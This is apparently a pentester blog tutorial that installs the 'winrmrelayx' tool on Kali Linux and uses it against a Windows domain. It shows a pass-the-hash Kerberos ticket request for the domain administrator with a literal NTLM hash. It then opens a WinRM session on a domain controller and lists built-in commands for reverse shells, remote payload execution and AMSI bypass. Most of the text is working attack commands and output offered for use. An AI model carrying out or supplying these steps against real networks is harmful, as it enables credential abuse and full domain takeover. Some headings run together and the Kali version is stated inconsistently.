

Download and Installing winrmrelayx on Kali Linux 2025.2 from GitHub
Most of the time Pentester are using Kali, or ParrotOS. This blog are tutorial of how to download winrmrelayx from @byt3n33dl3's GitHub page, and make it ready for attack.
At the time I make this ports Kali latest version are 2025.4 the method are the same for 2025.2.
Note that older Kali version, such as 2023 or bellow can still Download and Install winrmrelayx with no issue, just maybe need updated Impacket and requirements.txt
Check your Kali version
┌──(root㉿kali)-[~]
└─# lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description: Kali GNU/Linux Rolling
Release: 2025.2
Codename: kali-rollingFast Tutorial
I also put the installation method on the GitHub page:
winrmrelayx Installation.

Continue with the rest of the documentation.
Clone the repository
git clone https://github.com/byt3n33dl3/winrmrelayx.gitOr if you prefer the full terminal output:
┌──(root㉿kali)-[~]
└─# git clone https://github.com/byt3n33dl3/winrmrelayx.git
Cloning into 'winrmrelayx'...
remote: Enumerating objects: 52, done.
remote: Counting objects: 100% (52/52), done.
remote: Compressing objects: 100% (41/41), done.
remote: Total 52 (delta 16), reused 33 (delta 8), pack-reused 0 (from 0)
Receiving objects: 100% (52/52), 343.28 KiB | 3.77 MiB/s, done.
Resolving deltas: 100% (16/16), done.Install dependencies
Create a virtual environment (recommended):
python3 -m venv venv
source venv/bin/activateInstall required packages:
pip3 install -r requirements.txtOr with virtualenv activated:
┌──(venv)─(root㉿kali)-[~]
└─# pip3 install -r requirements.txt
Collecting impacket (from -r requirements.txt (line 1))
Using cached impacket-0.13.0-py3-none-any.whl
Collecting pyasn1
Using cached pyasn1-0.6.1-py3-none-any.whl
Collecting pycryptodomex
Using cached pycryptodomex-3.21.0-cp38-abi3-linux_x86_64.whl
Installing collected packages: pycryptodomex, pyasn1, impacket
Successfully installed impacket-0.13.0 pyasn1-0.6.1 pycryptodomex-3.21.0Launch winrmrelayx
First, obtain a TGT using Impacket's getTGT:
┌──(venv)─(root㉿kali)-[~]
└─# getTGT.py metropolis.local/administrator -dc-ip 192.168.66.18 -no-pass -hashes :01fc5a6be7bc6929aad3b435b51404ee
Impacket v0.14.0.dev0+20251107.4500.2f1d6eb2 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in administrator.ccacheExport the ticket:
export KRB5CCNAME=administrator.ccacheRun winrmrelayx with Kerberos authentication:
python3 evil_winrmrelayx.py -ssl -port 5986 -k -no-pass DC01.metropolis.local -dc-ip 192.168.66.18Full terminal output:
┌──(venv)─(root㉿kali)-[~]
└─# python3 evil_winrmrelayx.py -ssl -port 5986 -k -no-pass DC01.metropolis.local -dc-ip 192.168.66.18
[*] '-target_ip' not specified, using DC01.metropolis.local
[*] '-url' not specified, using https://DC01.metropolis.local:5986/wsman
[*] using domain and username from ccache: METROPOLIS.LOCAL\administrator
[*] '-spn' not specified, using HTTP/DC01.metropolis.local@METROPOLIS.LOCAL
[*] requesting TGS for HTTP/DC01.metropolis.local@METROPOLIS.LOCAL
Ctrl+D to exit, Ctrl+C will try to interrupt the running pipeline gracefully
This is not an interactive shell! If you need to run programs that expect
inputs from stdin, or exploits that spawn cmd.exe, etc., pop a !revshell
Special !bangs:
!download RPATH [LPATH]
!upload [-xor] LPATH [RPATH]
!amsi
!psrun [-xor] URL
!netrun [-xor] URL [ARG] [ARG]
!revshell IP PORT
!log
!stoplog
PS C:\Users\Administrator\Documents> whoami
metropolis\administratorAnd there we have it, Administrator with WinRM session!!!
Shout Outs!
To Fortra for supporting winrmrelayx impacket-based: